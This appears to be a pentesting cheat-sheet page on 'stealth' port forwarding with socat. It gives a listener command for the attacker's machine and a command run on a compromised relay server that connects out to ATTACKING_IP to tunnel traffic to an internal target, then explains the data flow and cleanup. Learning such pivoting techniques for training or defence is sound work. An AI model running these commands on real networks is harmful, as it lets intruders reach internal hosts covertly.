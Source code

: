 # ⭕ Socat Stealth Port Forward

### <mark style="color:orange;">**Port Forwarding - Stealth**</mark>

We can also port forward, but without opening any ports on the server!

First of all, on our own attacking machine, we issue the following command:

```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

Next, on the compromised relay server we execute this command:

```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

&#x20;This would create a link between port 8000 on our attacking machine, and port 80 on the intended target , meaning that we could go to `localhost:8000` in our attacking machine's web browser to load the webpage served by the target!

This is quite a complex scenario to visualise, so let's quickly run through what happens when you try to access the webpage in your browser:

* The request goes to `127.0.0.1:8000`
* Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001
* Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.

The process is then reversed when the target sends the response:

* The response is sent to the socat process on the compromised server. What goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.
* Anything that goes into port 8001 on our attacking machine comes out of port 8000 on our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.

### <mark style="color:orange;">Close Connections</mark>

&#x20;Run the `jobs` command in your terminal, then kill any socat processes using `kill %NUMBER.`
